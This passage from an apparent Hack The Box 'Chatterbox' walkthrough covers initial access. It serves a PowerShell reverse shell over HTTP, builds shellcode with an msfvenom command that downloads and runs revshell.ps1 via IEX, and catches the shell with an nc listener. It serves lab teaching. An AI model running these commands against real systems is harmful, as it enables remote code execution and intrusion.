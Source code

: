 Once the PS1 file is copied and modified, we need to setup an HTTP listener. Normally I would use the common `python -m SimpleHTTPServer` command here, but I've found a much better option recently. [The Updog tool](https://github.com/sc0tfree/updog) makes setting up an ad-hoc web server painless, and even handles SSL, different directories, and custom port numbers. We can start the HTTP server in our current directory on port 9090 with a simple `updog` command.

Now that we have the reverse shell file, and HTTP server setup, we can create the actual shellcode with MSFVenom. The below command will generate the needed shellcode for us. Command and breakdown is below. Note that I escaped the `"` characters with `\`.

```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell.exe -c \"IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.15:9090/revshell.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

When we run the command, we get a shellcode with a size of 704 bytes, which is well within the limits of 1152 that the original exploit describes. We can add it to our code, replacing the previous shellcode. Don't forget to open a listener with `nc -lvnp 7500` as well.

Running the exploit with `python rbof.py` returns our return PS shell as `alfred`.

![](/assets/htb-chatterbox/initial_shell.png)

We can read `user.txt` from `C:\Users\Alfred\Desktop\user.txt`.

![](/assets/htb-chatterbox/user_proof.png)

---